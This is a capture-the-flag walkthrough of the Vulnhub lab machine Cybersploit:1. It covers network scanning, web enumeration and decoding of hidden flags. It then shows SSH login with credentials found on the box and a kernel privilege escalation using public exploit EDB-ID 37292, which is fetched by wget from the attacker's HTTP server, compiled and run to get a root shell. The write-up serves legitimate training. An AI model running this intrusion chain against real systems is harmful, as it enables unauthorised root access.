

## Goal
Capture all 3 flags and gain root access.

:::note[Vulnhub Source:] 
[Cybersploit:1](https://www.vulnhub.com/entry/cybersploit-1,506/)
:::

## Host Discovery
First, we will find our own IP address to determine the subnet we are on. Then, we will scan for the IP address of the target machine.

```sh {3}
# ifconfig -a
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.2.4  netmask 255.255.255.0  broadcast 10.0.2.255
        inet6 fe80::a00:27ff:fe79:6078  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:79:60:78  txqueuelen 1000  (Ethernet)
        RX packets 1255  bytes 1497275 (1.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20623  bytes 1265697 (1.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

From this, we can determine that our own IP address is **10.0.2.4** and our netmask is **255.255.255.0**.

To find the IP address of the target, we will run the `netdiscover -r 10.0.2.0/24` command to view all connected devices on the network or subnet.

```sh {10}
 Currently scanning: Finished!   |   Screen View: Unique Hosts              
                                                                            
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240            
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor           
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor           
 10.0.2.3        08:00:27:74:46:3b      1      60  PCS Systemtechnik GmbH   
 10.0.2.5        08:00:27:10:60:01      1      60  PCS Systemtechnik GmbH 
```

Now we know that our target machine's IP Address is **__10.0.2.5__**.

## Aggressive Nmap Scan

To learn more about the open ports and services running on the target, we will perform an aggressive Nmap scan using the target's IP address that we just gathered.

To accomplish this, we will utilize [NmapAutomator](https://github.com/21y4d/nmapAutomator) and run the following command: `./nmapAutomator.sh -H 10.0.2.5 -t All`

```sh {13,14}
$ ./nmapAutomator.sh -H 10.0.2.5 -t All     

Running all scans on 10.0.2.5

Host is likely running Linux


---------------------Starting Port Scan-----------------------


PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


---------------------Starting Script Scan-----------------------
                                                                                                                                                                 


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From this scan, we can see that ports 22 and 80 are open, running **SSH** and **HTTP**, respectively.

## Web App Enumeration

Since we now know that port 80 is open and running the HTTP service, we will attempt to dig deeper and identify any information or vulnerabilities we can uncover.

### Inspecting the Web Page

Firstly, we will open the actual webpage in a browser.



The webpage itself does not give us much information, but if we inspect the webpage source we can find an HTML comment that tells us that a username is `itsskv`.

```html {8}
<pre>
<h4>LOL ! hahahhahahhahaha..............<h4>
<h5> You should try something more ! <h5>
</pre>


<!-------------username:itsskv--------------------->
</body>
</html>
```

### Finding Possible Files and Directories using dirb

Now we will see what files/directories we can find using the [dirb](https://www.kali.org/tools/dirb/) tool.

```sh {21,22}
$ dirb http://10.0.2.5

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Jan  7 17:47:03 2025
URL_BASE: http://10.0.2.5/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.5/ ----
+ http://10.0.2.5/cgi-bin/ (CODE:403|SIZE:284)                                                                                                    
+ http://10.0.2.5/hacker (CODE:200|SIZE:3757743)                                                                                                  
+ http://10.0.2.5/index (CODE:200|SIZE:2333)                                                                                                      
+ http://10.0.2.5/index.html (CODE:200|SIZE:2333)                                                                                                 
+ http://10.0.2.5/robots (CODE:200|SIZE:79)                                                                                                       
+ http://10.0.2.5/robots.txt (CODE:200|SIZE:79)                                                                                                   
+ http://10.0.2.5/server-status (CODE:403|SIZE:289)                                                                                               
                                                                                                                                                  
-----------------
END_TIME: Tue Jan  7 17:47:05 2025
DOWNLOADED: 4612 - FOUND: 7
```

Based on the output, we can begin investigating all the subdirectories and files listed. In this case, the **robots.txt** file catches my attention.

When we load that file in the browser, we see a string of text that appears to be encoded in Base64.


Now if we decode that string we will find our first of 3 flags!

```sh wrap
$ echo R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 | base64 --decode 
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

## SSH Access

Using the username we found by inspecting the webpage source and the flag we just discovered as the password, we can now attempt to log in to the target via **SSH**.

```
$ ssh itsskv@10.0.2.5                                                                                
itsskv@10.0.2.5's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

332 packages can be updated.
273 updates are security updates.

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Sat Jun 27 10:14:39 2020 from cybersploit.local
itsskv@cybersploit-CTF:~$ 
```

### Enumeration via SSH

First let's run a `ls -l` command to list all files/directories and their permissions.

```sh {7}
itsskv@cybersploit-CTF:~$ ls -l
total 48
drwxr-xr-x 2 itsskv itsskv 4096 Jun 25  2020 Desktop
drwxr-xr-x 2 itsskv itsskv 4096 Jun 25  2020 Documents
drwxr-xr-x 2 itsskv itsskv 4096 Jun 25  2020 Downloads
-rw-r--r-- 1 itsskv itsskv 8445 Jun 25  2020 examples.desktop
-rw-rw-r-- 1 itsskv itsskv  495 Jun 27  2020 flag2.txt
drwxr-xr-x 2 itsskv itsskv 4096 Jun 25  2020 Music
drwxr-xr-x 2 itsskv itsskv 4096 Jun 25  2020 Pictures
drwxr-xr-x 2 itsskv itsskv 4096 Jun 25  2020 Public
drwxr-xr-x 2 itsskv itsskv 4096 Jun 25  2020 Templates
drwxr-xr-x 2 itsskv itsskv 4096 Jun 25  2020 Videos
```

We can see that a file titled `flag2.txt` is listed. Let's check the contents of that file by running a `cat` command.

```txt wrap
itsskv@cybersploit-CTF:~$ cat flag2.txt
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

The text is encoded via binary and if we use a binary to text converter we can read what it says.


## Privilege Escalation

We need to find a way to run an exploit on this machine so that we can gain root access. We can start by identifying the exact version of Linux that this machine is running. To do this, we will run the `uname -a` command while still logged in as **itsskv** via **SSH**.

```
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
itsskv@cybersploit-CTF:~$ 
```

### Researching Exploits

By simply searching the kernel version of this Linux machine we can see common exploits for **3.13.0-32-generic**.


### Choosing an Exploit

After conducting our research on exploits, we will select [EDB-ID: 37292](https://www.exploit-db.com/exploits/37292). This exploit is written in the **C** language so we will need to find a way to get this code on the target machine and then compile it and execute it.

### Getting the Exploit on the Target Machine

To get the exploit on the target machine we will host a http server on our device and then run a `wget` command on the target machine to pull the exploit code down.

#### Starting a HTTP Server via Python

First we need to change directories to where the exploit is downloaded and then we can spin up a http server.

```
$ cd Downloads 
                                                                                                       
$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

#### Downloading Exploit on Target Machine

To download the exploit on the target machine we will run `wget http://10.0.2.4:8080/37292.c` via the ssh session we opened earlier.

```sh
$ wget http://10.0.2.4:8080/37292.c
--2025-01-08 05:14:09--  http://10.0.2.4:8080/37292.c
Connecting to 10.0.2.4:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/x-csrc]
Saving to: `37292.c'

100%[=============================================================>] 5,119       --.-K/s   in 0s      

2025-01-08 05:14:09 (54.0 MB/s) - `37292.c' saved [5119/5119]
```

### Compiling the Exploit

To compile the exploit we will simply run `gcc 37292.c` in the ssh session.

### Running the Exploit

To run the exploit we need to input `./a.out` and then press <kbd>ENTER</kbd>. Then we can run the `whoami` command to see if the exploit worked and granted us root access to the target machine.

```sh
itsskv@cybersploit-CTF:~$ ./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
```

### Getting the Final Flag

By navigating to the **/root** directory and running the `ls` command, we see the final flag listed as **finalflag.txt**.

Running `cat finalflag.txt` allows us to view the contents of the file and reach the end of this CTF challenge.

```
# cat finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```

## Conclusion

This CTF machine is on the simpler side, but it provides great practice for working with multiple scanning tools and requires you to research vulnerabilities and choose an exploit to gain root access.

As a recap here are the tools I used:
- [netdiscover](https://www.kali.org/tools/netdiscover/)
- [nmapAutomator](https://github.com/21y4d/nmapAutomator)
- [dirb](https://www.kali.org/tools/dirb/)
- [EDB-ID: 37292](https://www.exploit-db.com/exploits/37292)